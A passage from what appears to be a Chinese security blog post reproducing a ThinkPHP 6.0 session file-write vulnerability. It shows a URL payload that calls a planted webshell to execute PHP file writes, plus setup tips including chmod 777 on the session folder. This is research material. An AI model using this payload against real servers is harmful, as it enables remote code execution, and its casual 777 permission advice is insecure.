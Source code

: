   ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/eval.png)
  
  200之后，在`public/`下写入了名为`sueisokkk.php`的文件，在浏览器中访问构造带有payload的链接：
  
  ```
  http://xxx.xxx.xxx.xxx:8000/sueisokkk.php?a=fwrite(fopen(%22aa.txt%22,%20%22w%22),%22hello,world!%22);
  ```
  
  就在`public/`下写入了名为`aa.txt`内容为`hello,world`的文件
  
  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/helloworld.png)
  

😇此时的心情彷佛春天来到

# 其他的坑

- 💢如果修改了session以后，http://localhost:8000访问之后出错，就要试一下

  ```
  $ sudo php think run
  ```

- 💢如果`runtime/session/`下没有生成的session，那就应该是文件夹写的权限不够，我是直接给了777

  ```
  $ sudo chmod 777 /runtime/session/
  ```

所以能任意写入文件getshell的条件还是很苛刻的

